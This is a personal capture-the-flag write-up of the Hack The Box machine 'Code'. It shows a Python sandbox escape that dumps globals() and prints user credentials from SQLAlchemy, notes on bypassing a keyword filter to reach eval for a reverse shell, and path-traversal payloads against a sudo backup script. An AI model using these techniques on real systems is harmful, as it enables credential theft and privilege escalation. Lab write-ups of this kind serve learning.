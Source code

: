 # Code \[Linux Easy]

## Report

{% embed url="https://hackmd.io/@CHW/BJPYs0kyll?utm_source=preview-mode&utm_medium=rec#Initial-Enumeration" %}
This got the sql query from the shell, final payload also from here
{% endembed %}

{% embed url="https://www.hyhforever.top/htb-code/" %}
This one shows how to get a revshell from python interface, globals will have eval function somewhere - find it to use&#x20;
{% endembed %}

A web pythone code editor on port 5000 is compromised to leverage user credentials from SQLAlchemy via globals() variable. Keywords such as import, eval and exec are filtered but can be used as shown in above writeup to get a reverse shell. A search on google shows the required syntax and use it to read credentials for martin.

Sudo priveleges show martin can run a backup script with directories starting with home or var to be valid. Use directory traversal to get both user and root flags

## Cheatsheet

<pre class="language-bash"><code class="lang-bash">print(globals())
<strong>x = User.query.all()
</strong>for i in x:
    print(i.username, i.password)
    
#Payloads for backy.sh - Try to figure out why my payload didnt work
/home/app-production/user.txt
/var/....//root/root.txt
</code></pre>

## Proof

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" fullWidth="false" %}
```python
print(globals())

> {'__name__': 'app', '__doc__': None, '__package__': '', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f75638bf610>, '__spec__': ModuleSpec(name='app', loader=<_frozen_importlib_external.SourceFileLoader object at 0x7f75638bf610>, origin='/home/app-production/app/app.py'), '__file__': '/home/app-production/app/app.py', '__cached__': '/home/app-production/app/__pycache__/app.cpython-38.pyc', '__builtins__': {'__name__': 'builtins', '__doc__': \"Built-in functions, exceptions, and other objects.\\n\\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.\", '__package__': '', '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': ModuleSpec(name='builtins', loader=<class '_frozen_importlib.BuiltinImporter'>), '__build_class__': <built-in function __build_class__>, '__import__': <built-in function __import__>, 'abs': <built-in function abs>, 'all': <built-in function all>, 'any': <built-in function any>, 'ascii': <built-in function ascii>, 'bin': <built-in function bin>, 'breakpoint': <built-in function breakpoint>, 'callable': <built-in function callable>, 'chr': <built-in function chr>, 'compile': <built-in function compile>, 'delattr': <built-in function delattr>, 'dir': <built-in function dir>, 'divmod': <built-in function divmod>, 'eval': <built-in function eval>, 'exec': <built-in function exec>, 'format': <built-in function format>, 'getattr': <built-in function getattr>, 'globals': <built-in function globals>, 'hasattr': <built-in function hasattr>, 'hash': <built-in function hash>, 'hex': <built-in function hex>, 'id': <built-in function id>, 'input': <built-in function input>, 'isinstance': <built-in function isinstance>, 'issubclass': <built-in function issubclass>, 'iter': <built-in function iter>, 'len': <built-in function len>, 'locals': <built-in function locals>, 'max': <built-in function max>, 'min': <built-in function min>, 'next': <built-in function next>, 'oct': <built-in function oct>, 'ord': <built-in function ord>, 'pow': <built-in function pow>, 'print': <built-in function print>, 'repr': <built-in function repr>, 'round': <built-in function round>, 'setattr': <built-in function setattr>, 'sorted': <built-in function sorted>, 'sum': <built-in function sum>, 'vars': <built-in function vars>, 'None': None, 'Ellipsis': Ellipsis, 'NotImplemented': NotImplemented, 'False': False, 'True': True, 'bool': <class 'bool'>, 'memoryview': <class 'memoryview'>, 'bytearray': <class 'bytearray'>, 'bytes': <class 'bytes'>, 'classmethod': <class 'classmethod'>, 'complex': <class 'complex'>, 'dict': <class 'dict'>, 'enumerate': <class 'enumerate'>, 'filter': <class 'filter'>, 'float': <class 'float'>, 'frozenset': <class 'frozenset'>, 'property': <class 'property'>, 'int': <class 'int'>, 'list': <class 'list'>, 'map': <class 'map'>, 'object': <class 'object'>, 'range': <class 'range'>, 'reversed': <class 'reversed'>, 'set': <class 'set'>, 'slice': <class 'slice'>, 'staticmethod': <class 'staticmethod'>, 'str': <class 'str'>, 'super': <class 'super'>, 'tuple': <class 'tuple'>, 'type': <class 'type'>, 'zip': <class 'zip'>, '__debug__': True, 'BaseException': <class 'BaseException'>, 'Exception': <class 'Exception'>, 'TypeError': <class 'TypeError'>, 'StopAsyncIteration': <class 'StopAsyncIteration'>, 'StopIteration': <class 'StopIteration'>, 'GeneratorExit': <class 'GeneratorExit'>, 'SystemExit': <class 'SystemExit'>, 'KeyboardInterrupt': <class 'KeyboardInterrupt'>, 'ImportError': <class 'ImportError'>, 'ModuleNotFoundError': <class 'ModuleNotFoundError'>, 'OSError': <class 'OSError'>, 'EnvironmentError': <class 'OSError'>, 'IOError': <class 'OSError'>, 'EOFError': <class 'EOFError'>, 'RuntimeError': <class 'RuntimeError'>, 'RecursionError': <class 'RecursionError'>, 'NotImplementedError': <class 'NotImplementedError'>, 'NameError': <class 'NameError'>, 'UnboundLocalError': <class 'UnboundLocalError'>, 'AttributeError': <class 'AttributeError'>, 'SyntaxError': <class 'SyntaxError'>, 'IndentationError': <class 'IndentationError'>, 'TabError': <class 'TabError'>, 'LookupError': <class 'LookupError'>, 'IndexError': <class 'IndexError'>, 'KeyError': <class 'KeyError'>, 'ValueError': <class 'ValueError'>, 'UnicodeError': <class 'UnicodeError'>, 'UnicodeEncodeError': <class 'UnicodeEncodeError'>, 'UnicodeDecodeError': <class 'UnicodeDecodeError'>, 'UnicodeTranslateError': <class 'UnicodeTranslateError'>, 'AssertionError': <class 'AssertionError'>, 'ArithmeticError': <class 'ArithmeticError'>, 'FloatingPointError': <class 'FloatingPointError'>, 'OverflowError': <class 'OverflowError'>, 'ZeroDivisionError': <class 'ZeroDivisionError'>, 'SystemError': <class 'SystemError'>, 'ReferenceError': <class 'ReferenceError'>, 'MemoryError': <class 'MemoryError'>, 'BufferError': <class 'BufferError'>, 'Warning': <class 'Warning'>, 'UserWarning': <class 'UserWarning'>, 'DeprecationWarning': <class 'DeprecationWarning'>, 'PendingDeprecationWarning': <class 'PendingDeprecationWarning'>, 'SyntaxWarning': <class 'SyntaxWarning'>, 'RuntimeWarning': <class 'RuntimeWarning'>, 'FutureWarning': <class 'FutureWarning'>, 'ImportWarning': <class 'ImportWarning'>, 'UnicodeWarning': <class 'UnicodeWarning'>, 'BytesWarning': <class 'BytesWarning'>, 'ResourceWarning': <class 'ResourceWarning'>, 'ConnectionError': <class 'ConnectionError'>, 'BlockingIOError': <class 'BlockingIOError'>, 'BrokenPipeError': <class 'BrokenPipeError'>, 'ChildProcessError': <class 'ChildProcessError'>, 'ConnectionAbortedError': <class 'ConnectionAbortedError'>, 'ConnectionRefusedError': <class 'ConnectionRefusedError'>, 'ConnectionResetError': <class 'ConnectionResetError'>, 'FileExistsError': <class 'FileExistsError'>, 'FileNotFoundError': <class 'FileNotFoundError'>, 'IsADirectoryError': <class 'IsADirectoryError'>, 'NotADirectoryError': <class 'NotADirectoryError'>, 'InterruptedError': <class 'InterruptedError'>, 'PermissionError': <class 'PermissionError'>, 'ProcessLookupError': <class 'ProcessLookupError'>, 'TimeoutError': <class 'TimeoutError'>, 'open': <built-in function open>, 'quit': Use quit() or Ctrl-D (i.e. EOF) to exit, 'exit': Use exit() or Ctrl-D (i.e. EOF) to exit, 'copyright': Copyright (c) 2001-2021 Python Software Foundation.\nAll Rights Reserved.\n\nCopyright (c) 2000 BeOpen.com.\nAll Rights Reserved.\n\nCopyright (c) 1995-2001 Corporation for National Research Initiatives.\nAll Rights Reserved.\n\nCopyright (c) 1991-1995 Stichting Mathematisch Centrum, Amsterdam.\nAll Rights Reserved., 'credits':     Thanks to CWI, CNRI, BeOpen.com, Zope Corporation and a cast of thousands\n    for supporting Python development.  See www.python.org for more information., 'license': Type license() to see the full license text, 'help': Type help() for interactive help, or help(object) for help about object.}, 'Flask': <class 'flask.app.Flask'>, 'render_template': <function render_template at 0x7f756327dee0>, 'render_template_string': <function render_template_string at 0x7f756327df70>, 'request': <Request 'http://10.10.11.62:5000/run_code' [POST]>, 'jsonify': <function jsonify at 0x7f7563528c10>, 'redirect': <function redirect at 0x7f75633913a0>, 'url_for': <function url_for at 0x7f7563391310>, 'session': <SecureCookieSession {}>, 'flash': <function flash at 0x7f7563391550>, 'SQLAlchemy': <class 'flask_sqlalchemy.extension.SQLAlchemy'>, 'sys': <module 'sys' (built-in)>, 'io': <module 'io' from '/usr/lib/python3.8/io.py'>, 'os': <module 'os' from '/usr/lib/python3.8/os.py'>, 'hashlib': <module 'hashlib' from '/usr/lib/python3.8/hashlib.py'>, 'app': <Flask 'app'>, 'db': <SQLAlchemy sqlite:////home/app-production/app/instance/database.db>, 'User': <class 'app.User'>, 'Code': <class 'app.Code'>, 'index': <function index at 0x7f75622cb8b0>, 'register': <function register at 0x7f75622cbb80>, 'login': <function login at 0x7f75622cbc10>, 'logout': <function logout at 0x7f75622cbca0>, 'run_code': <function run_code at 0x7f75622cbe50>, 'load_code': <function load_code at 0x7f7562147040>, 'save_code': <function save_code at 0x7f75621471f0>, 'codes': <function codes at 0x7f75621473a0>, 'about': <function about at 0x7f7562147550>


x = User.query.all()
for i in x:
    print(i.username, i.password)
```
{% endcode %}

```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

```

```python
#My Effort lmao
hex_string = "626173653634" # "Hello World" in hex
bytes_object = bytes.fromhex(hex_string)
module = bytes_object.decode("ASCII")

print(module) # Output: Hello World
code = "5 + 10"
string = "example string"
utf8_string = string.encode("utf-8")
print(utf8_string) # Output: b'example string'
```

## In-Game Pitch Notes

Vectors to get revshell on python

* import, exec, eval filtered
* encode payload hex representation or whatever can bypass check
* but how to execute it?
* string methods like join and regex still stuck at string part

The eval function itself is part of the globals() constructor, i don't exactly know how but yes you only need these keywords in string format using string concatenation, the simplest method

Revshell or LFI possible&#x20;

IN THE END IT WAS INFO DISCLOSURE FFS

You tried a symlink for backy.sh whyyyyyyyy, the play was so obvious

## Lessons Learnt

* Once a particular vector does not work, **ACCEPT IT DOES NOT WORK**
* Taking a walk was pretty cool to calm down, ease out more often - these are still easy boxes nothing too crazy
* Stop being so scared to try something, the box wont crash lmao - better to leave it all on the floor you getting it off your mind now do it on screen as well
